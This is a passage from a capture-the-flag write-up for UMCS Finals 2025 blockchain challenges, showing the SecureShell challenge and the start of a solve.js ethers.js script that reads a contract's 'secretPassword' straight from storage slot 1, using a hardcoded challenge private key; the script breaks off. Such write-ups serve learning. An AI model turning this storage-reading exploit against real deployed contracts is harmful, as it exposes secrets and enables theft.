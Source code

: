 # Writeup UMCS Finals 2025

🩸 First Blood on Bank Vaults 🩸

>solved all the challenges but for challenge 1, 2 and 3
>
>i forgot what's the flag due to i forgot to put it in my writeup
>
>and by the time i wrote this... the server is already down... sorry !

## Table of Contents

### Blockchain
1. [SecureShell](SecureShell)
2. [Mario Kart](#Mario-Kart)
3. [Bank Vaults](#Bank-Vault)
4. [A lot of knowledge](#A-lot-of-knowledge)

---

## Blockchain

### SecureShell
>Author: X3 Security

### Description
>Super secure shell :)
>
>http://116.203.176.73:4448/
>
>Attachment: Participants File


### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
const { ethers } = require("ethers");

const RPC_URL        = "http://116.203.176.73:4448/8cfa1eb9-a693-40c9-a4a7-87150f1b87b3";
const PRIVKEY        = "c1506e7b002dcd41ceb918eea28222d72e6130b8baa18c3160cafa0a89e454e6";
const SETUP_ADDRESS  = "0x6B8344A64d065292597D62eb6520c41223dddE3a";

async function main() {
  // 1. Connect provider & wallet
  const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
  const wallet   = new ethers.Wallet(PRIVKEY, provider);

  // 2. Read the inner SecureShell address
  const setupAbi = [
    "function secureShell() view returns (address)",
    "function isSolved() view returns (bool)"
  ];
  const setup = new ethers.Contract(SETUP_ADDRESS, setupAbi, wallet);
  const shellAddr = await setup.secureShell();
  console.log("SecureShell deployed at:", shellAddr);

  // 3. Read secretPassword from storage slot 1
  const rawSlot1 = await provider.getStorageAt(shellAddr, 1);
```